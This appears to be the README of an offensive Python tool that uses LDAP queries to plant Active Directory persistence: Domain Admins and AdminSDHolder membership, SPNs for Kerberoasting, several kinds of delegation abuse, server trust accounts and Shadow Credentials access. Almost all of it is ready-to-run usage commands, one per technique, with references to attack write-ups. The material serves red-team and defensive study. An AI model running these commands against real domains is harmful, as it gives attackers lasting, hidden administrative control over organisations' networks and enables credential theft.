 # LDAP Persistence
Python tool to execute several AD persistence techniques through LDAP queries.

## Features

- Add user to Domain Admins Group
- Add user to AdminSDHolder
- Add SPN to user for later Kerberoasting
- Add Unconstrained Delegation to Computer
- Add Server (Un)Trust Account
- Add write access to msDS-KeyCredentialLink for the target computer (Shadow Credentials attack)
- Add Constrained Delegation to Computer
- Add Resource-Based Contrained Delegation to Computer

## Usage

### Add user to Domain Admins Group:

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 0 -t targetUser
```

### Add user to AdminSDHolder

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 1 -t targetUser 
```

### Add SPN to user for later Kerberoasting

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 2 -t targetUser -spn example.local/test.example.local
```

### Add Unconstrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 3 -t targetComputer
```

### Add Server (Un)Trust Account

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 4 -t targetComputer
```

### Add write access to msDS-KeyCredentialLink for the target Computer (Shadow Credentials attack)

Keep in mind that in order to exploit the Shadow Credentials attack you need the following requirements:
- Domain must have Active Directory Certificate Services and Certificate Authority configured.
- Domain must have at least one DC running with Windows Server 2016 that supports PKINIT.

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 5 -t targetComputer
```

### Add Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 6 -t targetComputer -spn cifs/test.example.local
```

### Add Resource-Based Constrained Delegation to Computer

```
python3 ldappersistence.py <HOST> -u domain\user -p password -a 7 -t targetComputer -computer example-pc
```

## References

AdminSDHolder - https://adsecurity.org/?p=1906

Add SPN to user for later kerberoasting - https://adsecurity.org/?p=3466

Shadow Credentials - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials

Unconstrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-unrestricted-kerberos-delegation

Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation

Resource-Based Constrained Delegation - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Add Server (Un)Trust Account - https://stealthbits.com/blog/server-untrust-account/
